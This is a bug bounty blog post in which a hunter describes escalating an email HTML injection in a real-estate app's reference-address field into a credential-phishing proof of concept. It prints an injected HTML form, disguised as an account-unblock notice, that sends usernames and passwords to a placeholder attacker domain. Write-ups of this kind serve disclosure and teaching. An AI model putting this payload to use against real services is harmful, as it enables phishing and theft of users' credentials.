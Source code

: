 # How I Escalated a Simple Email HTML Injection from P4 to P3
Hey everyone — I’m Pavan (aka eh_pavan).
This is my first blog post. In it I explain how I escalated a simple Email HTML Injection from P4 (low) to P3 (medium) while hunting on a Bugcrowd program. I’ve included the discovery steps, the payloads I used, the proof-of-concept. Sorry for any small mistakes I’m new to blogging, but I hope you learn something from my process.

## Discovery Phase
i selected the one of the Program on Bugcrowd with aim of hunt for 1 month in same program, after completing my recon phase which it taken 2 days of, then i directly i jumped into the Main Application after playing some time on Setting section, i noticed There is an option to add Address which related to a site location(as it was realesting app).

ahh there is also feature called add reference address too, which means add the referencer for our site location, i casually added my Bugcrowd alias email with basic Html payload `<i>test-everywhere</i>`

Banggg i got an email notification reflecting our injected html code with *test everywhere* (italic), classic Email HTML injection right, ahh i tried to report it but my hacker insticts signal me to try to increase the impact as per the Bugcrowd VRT Email HTML Injection is considered as P4, so there is no of increasing the impact. But i tried something wierd !!

## The Impact chaining, how I thought about escalation

I read a write-up that showed how HTML injection in emails can be abused to phish credentials. Many programs exclude generic phishing, but my goal was to demonstrate additional impact.

Key observations that enabled escalation:
* The vulnerable field allowed arbitrary HTML (no character limit).
* Notification emails reflected the injected HTML and rendered it in the victim’s mail client.
* Modern browsers have autofill features for forms. While browsers do not autofill passwords in untrusted contexts automatically, a realistic looking inline form in an email can social-engineer users to enter credentials.

With those points in mind, I tried injecting a full HTML form into the vulnerable field.

### Proof Of Concept 

the steps are simple right all we need his the html code to inject and victim email, so i tried to inject whole html code in Vulnerable field which look like this:

```
<h3>Hello Dear, User your account is Blocked Please fill the below form to unlock</h3>
<form action="http://<attacker-domain>" method="GET">
<input type="username" name="user"><input type="password" name="pass"> 
<button>submit</button></form>
```
What happened:
* The h3 rendered in the notification email.
* The injected <form> appeared in the email body. When a user entered credentials and clicked Submit, the browser made a request to http://<attacker-domain>/collect with user and pass in the query string (because method="GET"), which was logged on the attacker-controlled server.
